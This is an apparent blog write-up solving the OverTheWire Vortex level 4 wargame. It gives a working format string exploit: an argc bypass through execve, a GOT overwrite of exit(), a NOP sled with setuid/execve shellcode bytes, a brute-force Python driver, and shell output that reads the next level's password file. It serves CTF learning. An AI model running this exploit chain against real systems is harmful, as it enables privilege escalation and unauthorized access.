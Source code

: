```yaml
---
title:  "[CTF] OverTheWire Vortex Level 4"
---
```


![Logo](/assets/images/vortex4.png)

## Context

[This level](http://overthewire.org/wargames/vortex/vortex4.html) looks like a simple 3 lines program, containing a common issue - format string vulnerability:
```c
int main(int argc, char **argv)
{
 if(argc) exit(0);
 printf(argv[3]);
 exit(EXIT_FAILURE);
}
```

## 1. Bypass the check for arguments count
The program exits if the _`argc`_ variable is different than 0. _`argc`_ represents the length of _`argv`_ array, which has on the first position the program name (the name appearing on top and like utilities, for example). So argc is always >=1.
But If we know how arguments and environment variables are passed to the main function when executing the binary,  we can bypass the verification and also pass something meaningful to _`printf`_ in _`argv[3]`_ argument.  The stack looks like this:
```
| argc | argv[0] | argv[1] ... |argv[argc-1]| NULL |env[0]|...|env[n]|NULL|
```

Where the first _`NULL`_ indicates the end of the _`argv`_ array, and the second one the end of the environment variables array. So if we pass _`NULL_` as the _`argv`_ array, when the program tries to access _`argv[3]`_, it will in fact access _`env[2]`_, because the stack would look like this (_`argv[0]`_ points to the _`NULL`_ byte):
```
| 0 | NULL | env[0] | env[1] | env[2] | ...
```

In Python I couldn't call one of the _`exec`_ functions with _`argv`_ set to _`NULL`_, so I've used another method:
```c
char exe[] = "/vortex/vortex4";
 
char* argv[] = { NULL }; 
char* env[] = {"env0", "env1", "TEST", NULL};
 
execve(exe, argv, env);
```

## 2.  Pass the format string attack into an environment variable
We have to find out the approximate location of the environment variables in the memory. The Vortex labs machine has ASLR disabled. We can test with and without ASLR to see the variation of the environment variables' address, using the following simple program:
```c
/* 
 * Test program to find the location of envirnment variables on stack.
 *  - test with/without ASLR
 * 
 * To disable ASLR: 
 * echo 0 > /proc/sys/kernel/randomize_va_space
 * 
 * To enable ASLR:
 * echo 2 > /proc/sys/kernel/randomize_va_space
 * 
 */
 
#include <stdio .h>
 
extern char **environ;
 
/* Return the current stack pointer */
unsigned long find_esp(void){
 // Copy stack pointer into EAX
    __asm__("mov %esp, %eax");
     
    // Return value of the function is in EAX
}
 
int  main() {
 char **env = NULL;
  
    for (env = environ; *env; ++env)
        printf("%p:\t%s\n", env, *env);
 
    unsigned long p = find_esp(); 
    printf ("Current stack pointer: Ox%lx\n" , p) ;
         
    return 0;
}
```

## 3. Redirect program flow
We decide an address to overwrite to change the flow of the program. We can use the same trick as in the previous level: replace the address of _`exit()`_ function in _`.plt`_, which is called at the end of the program. We find it by searching relocations sections in the binary:
```bash
vortex4@melissa:/vortex$ readelf -r ./vortex4
[..]
Relocation section '.rel.plt' at offset 0x294 contains 4 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a000  00000107 R_386_JUMP_SLOT   00000000   __gmon_start__
0804a004  00000207 R_386_JUMP_SLOT   00000000   __libc_start_main
0804a008  00000307 R_386_JUMP_SLOT   00000000   printf
0804a00c  00000407 R_386_JUMP_SLOT   00000000   exit
```

## 4.Shellcode
We'll place a shellcode (I've used the same 32 bytes I've used in the previous level, _`setuid + execve`_) in  the environment variable, with a big NOP sled before (I've used 500 bytes). In the format string before, try to overwrite the address we found above, _`0x0804a00c`_ (which I've actually replaced in 4 bytes: _`0x0804a00c`_, _`0x0804a00d`_, _`0x0804a00e`_, _`0x0804a00f`_. 

This was actually the hardest part. I've made a Python wrapper over the C wrapper containing the _`execve`_ instruction, that passes and brute-forces different format strings.

A good exercise to test the vulnerability is to first try to read memory (using _`%x`_ or _`%s`_ instead of _`%n`_ for writing), to find the actual position of the format string on the stack. I actually found that I needed 106 bytes to get to the format string on the stack. A trick that can be used here: direct parameter access in printf ($), detailed in the [Single Unix Specification ](http://pubs.opengroup.org/onlinepubs/7908799/xsh/fprintf.html). For me, I could access the format string with the following parameter:
```bash
fmt = "AAAABBBBCCCCDDDD..." + "%106$x%107$x%108$x%109$x"
```
I've adjusted it with fillers ('.'), and tuned the offset until reach the correct one, 106. The Python brute-forcing script:
```python
import subprocess
 
''' 
Script to pass the format string and address to be overwritten to
the vortex 4 wrapper binary
'''
 
# 4 bytes to be modified (address of exit() in .plt - 0x0804a00c)
addr =  "\x0c\xa0\x04\x08" + \
        "\x0d\xa0\x04\x08" + \
        "\x0e\xa0\x04\x08" + \
        "\x0f\xa0\x04\x08"
 
# Read it, after many trial and errors
#fmt = "AAAABBBBCCCCDDDD..." + "%106$x%107$x%108$x%109$x"
 
for i in range(1, 255):
        for j in range(1, 255):
                fmt = addr + "...." + \
                "%106$n%5$0" + str(i) + "d" + \
                "%107$n%5$0" + str(j) + "d" + \
                "%108$n" + \
                "%109$n"
                print "%d %d fmt: %s: " % (i, j, fmt)
                p = subprocess.Popen(['/tmp/myl4', fmt])
                 
                p.wait()
                # Ctrl-D to continue
```

And the C wrapper with _`execve`_ over vortex4 binary:
```c
/*
 * Wrapper over vortex 4 binary: 
 *  - byapss first argc check
 *  - pass shellcode in environment variable
 *  - receive format string from python wrapper (.. easier) 
 */
 
#include <stdio .h>
#include <string .h>
 
/* 32 bytes setuid(0) + execve("/bin/sh",["/bin/sh",NULL]); */
char shellcode[] = "\x6a\x17\x58\x31\xdb\xcd\x80\x31\xd2\x6a\x0b\x58\x52"
        "\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53"
        "\x89\xe1\xcd\x80";
 
char padding[500];
char NOP = '\x90';
int nops = 500;
 
int main(int argc, char **args) {
 char exe[] = "/vortex/vortex4";
 char sh[600] = {0};
  
 // Fill with lots of NOPs to make sure we reach the shellcode
 memset(padding, NOP, nops);
  
 memcpy(sh, padding, nops);
 memcpy(sh+nops, shellcode, strlen(shellcode));
  
 // argc wil be 0, because argv[0] is not set
 char* argv[] = { NULL }; 
 char* env[] = {"env0", "env1", args[1], sh, NULL};
 
 execve(exe, argv, env);
  
 return 0;
}
```

## 5. Putting pieces together: 
```bash
vortex4@melissa:/tmp$ vim myl4.c
vortex4@melissa:/tmp$ vim myl4.py
vortex4@melissa:/tmp$ gcc -o myl4 myl4.c
vortex4@melissa:/tmp$ python myl4.py
[..]
202 33 fmt: 
���....%106$n%5$0202d%107$n%5$033d%108$n%109$n: 
$ id
uid=5004(vortex4) gid=5004(vortex4) euid=5005(vortex5) groups=5005(vortex5),5004(vortex4)
$ cat /etc/vortex_pass/vortex5
*****
```
